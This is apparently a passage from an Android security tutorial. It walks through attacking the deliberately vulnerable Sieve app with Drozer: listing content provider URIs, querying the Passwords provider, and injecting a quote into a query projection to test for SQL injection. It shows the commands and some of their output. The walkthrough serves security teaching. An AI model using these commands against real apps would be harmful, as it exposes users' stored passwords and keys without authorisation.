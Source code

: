 Run the following command to find all of the available content provider URIs:

```bash
dz> run scanner.provider.finduris -a com.withsecure.example.sieve
# Look for sure accessible content URIs:
  content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords
content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/
content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/
```


In this command, the package name of the application we want to scan is the only argument provided.
When this command completes, you will see accessible URIs listed for the application: `content://...` With this, we now have enough information to send a simple query to the content provider. This can be done in Drozer with the following command:

```bash
# dz> run app.provider.query [content://...]
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords
```


When you run this command, you will see some data output to the screen.

For this application, the data for the content provider is retrieved using a query that looks like this:

```sql
SELECT * FROM Passwords;
```

As we previously mentioned, it is possible to provide data to add to this query. The first way we can do this is using a query projection.

### Injections on Query Projections

When you provide data for a query projection, the data is added between the select and from in the SQL query. For example, we can add a projection to our current content provider:

```bash
# dz> run app.provider.query [content://...] --projection [projection]
dz> run app.provider.query content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords --projection "'"
```

Adding this projection changes our query to:

```sql
SELECT ' FROM Passwords
```

This is obviously throw error.

To find all of the tables that are in the database, we can use a different Drozer command:

```bash
dz> run scanner.provider.sqltables -a com.withsecure.example.sieve
Attempting to run shell module
Scanning com.withsecure.example.sieve...
Accessible tables for uri content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords:
  android_metadata
  Passwords
  Key

Accessible tables for uri content://com.withsecure.example.sieve.provider.DBContentProvider/Keys/:
  android_metadata
  Passwords
  Key

Accessible tables for uri content://com.withsecure.example.sieve.provider.DBContentProvider/Passwords/:
```